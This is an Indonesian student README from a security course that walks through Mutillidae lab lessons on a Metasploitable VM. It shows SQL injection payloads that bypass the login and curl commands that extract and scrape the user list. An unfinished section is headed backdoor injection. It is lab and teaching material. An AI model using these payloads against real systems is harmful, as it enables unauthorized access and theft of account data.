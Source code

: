 # Tugas-Final-PKSJ
Tugas final PKSJ 2017
 OLEH 
- 5114100092    KHARISMA MONIKA
- 5114100131    Michael Dave
- 5114100081    M. Luqmanul Hakim

## Multidiae
### Lesson 5
  1. Membuka halaman mutillidae dengan memasukan URL sebagai berikut [IP_metasploitable]/mutillidae seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/home.png "Mutillidae Homepage") 
pada gambar 192.168.56.101/mutillidae

2. Pilih halaman login dengan menekan tulisan login di sebelah kiri atas dari halaman mutillidae
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/login.png "Mutillidae Login page")

3. Isikan (') / petik satu / single_quote pada kolom name seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/single_quote_test.png "Mutillidae single quote test")
Lalu tekan enter

4. Dapat dilihat dibagian atas muncul error log yang memberikan indikasi mengenai format dari dari perintah SQL untuk login
yaitu SELECT * FROM accounts WHERE username=''' AND password=''
dimana (') menyebabkan error pada eksekusi command sql.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/single_quote_test_report.png "Mutillidae single quote test report")

5. Dengan demikian maka dapat dilakukan login dengan mem-bypass password menggunakan sql injection dengan mengetikan perintah
sebagai berikut "'or 1=1-- " (petik 2 tidak perlu diketik juga)
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test.png "Mutillidae bypass login")
Perhatikan untuk memberikan spasi di akhir dari tanda (-- ).
Lalu tekan enter.

6. Hasilnya
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test_report.png "Mutillidae login as admin")
Perhatikan frasa logged in as Admin:admin

### Lesson 6

### Lesson 7
Note : harus mengganti settingan database pada metasploit, database name diubah menjadi owsp10

 1. Buka Mutillidae pada Browser dengan IP/mutillidae
 2. OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
 ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/section%208%20user%20info.PNG "Tampilan USer Info")
 3. Settig proxy firefox dengan alamat 127.0.0.1:8080
 4. Setting Burpsuite, dengan menonaktifkan intercept
 5. Di page user info masukkan username:
  ' 1=1-- 
  Lihat URL yang dihasilkan. Url yang dihasilkan seperti berikut : 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_5/bypass_password_username_test.png "Tampilan User Page Info")
  http://192.168.149.101/mutillidae/index.php?page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details
      Terlihat +or+1%3D1-- 
        Keterangan :
        + : space
        %3D : =
   ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/SQL%20Injection%20Obtain%20Userlist.PNG "LIST Username")
  6. Lihat di history http di burpsuite. History burpsuite menunjukkan encoded sql injection. Untuk proses selanjutnya menggunakan curl.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/history%20burpsuite.PNG "History burpsuite")
  7. SQL injection dengan curl. dengan perintah " curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://192.168.1.111/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}' "
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20curl.PNG "HASIL CURL")
  
  8. Membuat output file dengan memasukkan hasil curl pada lesson7.txt dengan perintah "  curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://192.168.1.111/mutillidae/index.php" | grep "Username=" > lesson7.txt  " 
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20cat%20lesson7.PNG "HASIL CAT CURL")
  
  9. Selanjutnya adalah SQL injection dengan Perl. Download Script Output parser, dengan perintah wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT
  10. Rename menjadi extensi perl, dengan perintah mv lesson7.pl.TXT lesson7.pl
  11. ubah permission agar dapat membaca dengan perintah chmod 700 lesson7.pl
  
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/download%20output%20parser.PNG "HASIL DOWNLOAD PERL")
  
  12. Jalankan script perl dengan perintah ./lesson7.pl
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_7/hasil%20run%20perl%20script.PNG "HASIL SQL INJECTION DENGAN PERL")
   
### Lesson 8
### Lesson 9
### Lesson 10
  #### Section 8: Navigate to the User Info Page
    1. Open Browser
    2. Open Mutillidae, dengan alamat http://IP/mutillidae
    3. Go to User Info : OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info
    
  #### Section 9: Inject Backdoor into User Info Page
    1. Inspect element textbox name
    2. Mengganti ukuran textbox, dari 20 menjadi 100.
    3. Pada textbox tuliskan string berikut, 
    
    belum bisa
    
### Lesson 11

## Cuckoo
### Instalasi
### Konfigurasi
### Testing

## Snort
### Instalasi
### Konfigurasi
### Testing
